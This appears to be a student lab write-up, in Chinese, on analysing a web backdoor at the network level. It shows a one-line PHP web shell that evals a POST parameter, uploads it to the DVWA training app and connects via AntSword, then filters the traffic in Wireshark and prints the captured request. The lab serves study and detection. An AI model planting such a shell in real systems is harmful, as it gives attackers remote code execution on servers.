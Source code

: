## 作业1：
### 网络层面后门分析
- 首先是通过文件上传，将一句话木马文件，上传至dvwa,然后通过蚁剑连接
```php
<?php
      $name = $_POST[1];
      $name = substr($name, 0);
      eval("echo 123;" . $name. "echo 456; ")
?>
```
![Alt text](image.png)
- 当前场景为物理机为跳板机，虚拟机win7为靶场，通过跳板机，攻击win7的web服务
- 在当前物理机上开启wireshark监听，通过检索目的地址进行数据包筛选
```
ip.dst == 192.168.0.106 && http
找到对应数据包后通过右键，追踪流，查看完整数据包信息
```
![Alt text](image-1.png)
- 数据包
```
POST /DVWA/hackable/uploads/info5.php HTTP/1.1
Host: 192.168.0.106
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:16.0.1) Gecko/20121011 Firefox/21.0.1
Content-Type: application/x-www-form-urlencoded
```